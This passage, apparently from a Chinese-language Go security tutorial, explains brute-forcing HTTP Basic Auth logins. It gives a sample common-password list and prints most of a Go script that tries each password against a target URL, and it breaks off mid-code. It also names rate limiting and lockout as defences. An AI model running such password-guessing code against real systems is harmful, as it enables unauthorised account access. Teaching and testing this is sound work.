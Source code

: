 此示例将获取一个 URL 和一个`username`值，并尝试使用生成的密码进行登录。

为了减少此类攻击的效果，可以在一定数量的登录尝试失败后实施速率限制功能或帐户锁定功能。

如果您需要从头开始构建自己的密码列表，请尝试从维基百科中记录的最常见密码开始[`en.wikipedia.org/wiki/List_of_the_most_common_passwords`](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)。以下是一个可以保存为`passwords.txt`的简短示例：

```go
password
123456
qwerty
abc123
iloveyou
admin
passw0rd
```

将前面代码块中的列表保存为一个文本文件，每行一个密码。名称不重要，因为你会将密码列表文件名作为命令行参数提供：

```go
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Basic Auth 

Passwords should be separated by newlines. 
URL should include protocol prefix. 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url> 

Example: 
  ` + os.Args[0] + ` admin passwords.txt https://www.test.com 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testBasicAuth(url, username, password string, doneChannel chan bool) { 
   client := &http.Client{} 
   request, err := http.NewRequest("GET", url, nil) 
   request.SetBasicAuth(username, password) 

   response, err := client.Do(request) 
   if err != nil { 
      log.Fatal(err) 
   } 
   if response.StatusCode == 200 { 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
```